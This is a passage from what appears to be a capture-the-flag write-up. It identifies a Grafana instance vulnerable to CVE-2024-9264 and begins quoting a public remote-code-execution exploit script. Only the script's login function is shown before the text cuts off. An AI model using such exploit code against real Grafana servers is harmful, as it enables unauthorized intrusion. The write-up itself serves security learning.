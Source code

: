 ![web](/assets/img/commons/planning/grafana.png){: .center-image }

There is a CVE for this version (CVE-2024-9264):

```py
import requests
import argparse

"""
Grafana Remote Code Execution (CVE-2024-9264) via SQL Expressions
See here: https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

Author: z3k0sec // www.zekosec.com
"""

def authenticate(grafana_url, username, password):
    """
    Authenticate to the Grafana instance.

    Args:
        grafana_url (str): The URL of the Grafana instance.
        username (str): The username for authentication.
        password (str): The password for authentication.

    Returns:
        session (requests.Session): The authenticated session.
    """
    # Login URL
    login_url = f'{grafana_url}/login'

    # Login payload
    payload = {
        'user': username,
        'password': password
    }

    # Create a session to persist cookies
    session = requests.Session()

    # Perform the login
    response = session.post(login_url, json=payload)

    # Check if the login was successful
```